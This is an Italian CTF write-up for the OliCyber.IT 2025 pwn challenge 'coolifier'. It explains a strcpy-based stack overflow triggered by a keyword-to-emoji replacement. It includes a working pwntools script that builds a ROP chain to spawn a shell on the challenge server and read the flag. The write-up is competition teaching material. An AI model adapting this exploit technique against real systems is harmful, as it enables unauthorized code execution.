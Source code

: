 # OliCyber.IT 2025 - Competizione nazionale

## [pwn] coolifier (23 solves)

Rendi i tuoi testi noiosi molto più cool!

`nc coolifier.challs.olicyber.it 38068`

Author: Giulia Martino <@Giulia>

## Panoramica

Il binario chiede all'utente la lunghezza di un messaggio e un messaggio. Poi “coolifica” il messaggio cercando una lista predefinita di parole chiave e sostituendole con le relative stringhe. Un banner stampato all'avvio mostra la mappatura tra le parole chiave e le loro sostituzioni. Una di queste sostituzioni è la stringa `/bin/sh`, un dettaglio importante per l'exploit. Il binario non è stripato, non ha canary e non è PIE.

## Soluzione

La funzione `coolify` è quella responsabile della trasformazione dell'input e contiene il bug. La funzione esegue i seguenti passaggi:

1. Itera sull'input byte per byte.
2. Per ogni posizione, controlla se l'input corrisponde a una delle parole chiave predefinite.
3. Se trova una corrispondenza, usa `strcpy` per copiare la stringa di sostituzione corrispondente in un buffer di output.
4. Altrimenti, copia semplicemente il byte corrente.

È importante notare che:

- I buffer di input e output sono entrambi allocati nello stack con una dimensione di 0x100 byte.
- La funzione usa un contatore (basato sulla lunghezza dell'input) per decidere quanti caratteri processare.
- Non c'è un controllo corretto dei limiti sul buffer di output quando una parola chiave viene sostituita: la stringa emoji viene copiata usando la funzione `strcpy`; quindi, se la stringa di sostituzione è più lunga della parola chiave, l'output può crescere oltre il limite di 256 byte.

In particolare, la 13esima parola chiave `iamabear!`, lunga 10 byte, corrisponde all'emoji `\\_ʕ•ᴥ•ʔ_/`, lunga 18 byte. Questo significa che ogni volta che la stringa `iamabear!` è usata nell'input dell'utente, l'output sarà più lungo di 8 byte. Questo può essere usato per causare un buffer overflow sullo stack.

Dato che non c'è canary e il binario non è PIE, un modo diretto per ottenere la flag è sovrascrivere l'indirizzo di ritorno nello stack con una ROP chain per ottenere una shell. I requisiti sono:

- rax = 0x3b
- rdi = indirizzo di `/bin/sh`
- rsi = 0x0
- rdx = 0x0
- syscall

Tutti i gadget necessari sono stati inseriti volutamente nel binario e possono essere trovati ispezionandolo con uno strumento come `ropper` o `ROPGadgets`:

```console
➜  ropper -f build/coolifier
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%

Gadgets
=======

[...]
0x00000000004011bd: pop rax; sub rax, 0x37; ret;
0x00000000004011a6: pop rdi; add rdi, 8; ret;
0x00000000004011b4: pop rdx; xor rdx, 0x37; ret;
0x00000000004011af: pop rsi; ret;
[...]
0x00000000004011c6: syscall;
[...]

```

I gadget che poppano `rax`, `rdi` e `rdx` contengono una seconda istruzione che esegue un'operazione aggiuntiva su di essi, ma possono essere facilmente annullati invertendo l'operazione nel valore caricato con `pop`.

La stringa `/bin/sh` è già presente nel binario come una delle stringhe di sostituzione.

Quindi, la strategia dell'exploit è:

1. Inviare un numero sufficiente di stringhe `iamabear!` per causare un buffer overflow nello stack abbastanza grande da contenere l'intera ROP chain.
2. Riempire i byte rimanenti con caratteri `cyclic` (fino a 0xff, che è il massimo input accettato dalla challenge).
3. Trovare l'offset dell'indirizzo di ritorno facendo crashare il programma in un debugger e controllando l'indirizzo di ritorno: `cyclic_find(0x6165616161616161, n=8) = 26`.
4. Aggiornare il payload in modo che contenga il giusto numero di byte di offset e poi aggiungere la ROP chain completa.

## Exploit

```python
#!/usr/bin/env python3

from pwn import *
import os


HOST = os.environ.get("HOST", "coolifier.challs.olicyber.it")
PORT = int(os.environ.get("PORT", 1337))

exe_name = os.path.join(os.path.dirname(__file__), 'coolifier')
exe = context.binary = ELF(exe_name, checksec=False)

POP_RAX = 0x00000000004011bd # pop rax; sub rax, 0x37; ret;
POP_RDI = 0x00000000004011a6 # pop rdi; add rdi, 8; ret;
POP_RDX = 0x00000000004011b4 # pop rdx; xor rdx, 0x37; ret;
POP_RSI = 0x00000000004011af # pop rsi; ret;
SYSCALL = 0x00000000004011c6 # syscall;
BIN_SH = 0x4020bd

io = remote(HOST, PORT)

ropchain = p64(POP_RDI)
ropchain += p64(BIN_SH - 8)
ropchain += p64(POP_RSI)
ropchain += p64(0)
ropchain += p64(POP_RDX)
ropchain += p64(0x37)
ropchain += p64(POP_RAX)
ropchain += p64(0x3b + 0x37)
ropchain += p64(SYSCALL)

N_OVERFLOWS = 14

payload = b"iamabear!" * N_OVERFLOWS
payload += b"A" * cyclic_find(0x6165616161616161, n=8)
payload += ropchain

io.sendlineafter(b"Message length: ", str(len(payload)).encode())
io.sendafter(b"Message: ", payload)
io.recvline()

io.sendline(b"cat flag")
res = io.clean(1)

if b"flag{" not in res:
    print("nope ->", res)
else:
    flag = "flag{" + res.split(b"flag{")[1].split(b"}")[0].decode() + "}"
    print(flag)

io.close()

```
